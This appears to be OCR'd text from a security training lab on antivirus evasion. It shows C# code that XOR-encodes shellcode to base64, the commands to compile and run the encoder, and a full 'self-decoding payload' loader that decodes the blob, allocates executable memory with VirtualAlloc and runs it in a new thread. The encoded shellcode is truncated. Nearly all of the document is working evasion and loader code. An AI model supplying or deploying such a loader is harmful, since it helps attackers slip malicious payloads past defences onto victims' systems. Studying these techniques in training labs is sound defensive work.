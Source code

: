 ```csharp
            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}

# Compile and execute the encoder
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
# Self-decoding payload

using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

```